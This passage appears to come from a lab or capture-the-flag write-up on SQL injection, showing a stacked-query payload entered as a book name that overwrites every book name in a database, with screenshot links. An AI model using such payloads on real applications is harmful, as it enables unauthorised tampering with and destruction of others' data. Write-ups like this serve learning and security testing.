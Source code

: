 ![Pasted image 20250505145928.png](../../../IMAGES/Pasted%20image%2020250505145928.png)

All book names on the database changed to `hacked`, we can now change them to `compromised` adding this new book:

```sql
1'; UPDATE books SET book_name = 'compromised'; --
```

![Pasted image 20250505150021.png](../../../IMAGES/Pasted%20image%2020250505150021.png)

Let's update it:

![Pasted image 20250505150032.png](../../../IMAGES/Pasted%20image%2020250505150032.png)
